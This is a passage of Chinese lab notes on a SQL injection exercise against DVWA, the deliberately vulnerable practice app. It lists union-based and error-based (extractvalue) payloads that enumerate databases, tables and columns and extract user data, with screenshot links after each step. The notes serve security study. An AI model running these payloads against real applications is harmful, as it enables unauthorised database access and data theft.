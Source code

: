 若页面显示位不足： -1' union all select 1,2#,使左边为空值，腾出位置
![image-20241024105349118](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024105349118.png)

查询数据库名和用户名：1' union all select database(),user()#,若显示位不够，调换查询参数位置
![image-20241024105735309](https://gitee.com/aircraftLi/picgo/raw/master/img/fdc3ef5300e9810a2acdeacb82680804.png)

(补充）解决页面显示位不足：查询结果合并位1行，1' union select 1,group_concat(user) from users#
![image-20241024110958392](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024110958392.png)

爆库名：1' union select schema_name,1 from information_schema.schemata#
![image-20241024122251943](https://gitee.com/aircraftLi/picgo/raw/master/img/61a25aff0971b7c899bc9332ea410a0f.png)

爆表名：1' union select table_name,1 from information_schema.tables where table_schema=database()#
![image-20241024121754036](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024121754036.png)

爆字段名：1' union select column_name,1 from information_schema.columns where table_schema='dvwa' and table_name='users
![image-20241024123303493](https://gitee.com/aircraftLi/picgo/raw/master/img/707b37ef95d60aa7da6580ae99417006.png)

拿到first_name：1' union all select first_name,1 from users#
![image-20241024124332930](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024124332930.png)

##### 3.在后端使用Union注入实现“dvwa数据库-user表-字段-first_name数据”的注入过程

先展示数据库名：show databases;

进入dvwa表后，show tables;

列出users表所有信息：select * from users; 

![image-20241024124801974](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241024124801974.png)

##### 4.在前端通过报错注入实现“dvwa数据库-user表-字段”的注入过程

判断是否有报错注入，有语法错误回显，判断有报错注入：1' and extractvalue(1,0x7e)#
![image-20241025223313138](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025223313138.png)

爆库名：1' and extractvalue(1,concat(0x7e,database()))#
![image-20241025223046312](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025223046312.png)

爆表数：1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='dvwa')));#
![image-20241025224639148](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241025224639148.png)

爆表名：1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 0,1)))#（第一张表）
![image-20241026125253537](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125253537.png)
第二张表：1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1)))#
![image-20241026125347959](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026125347959.png)
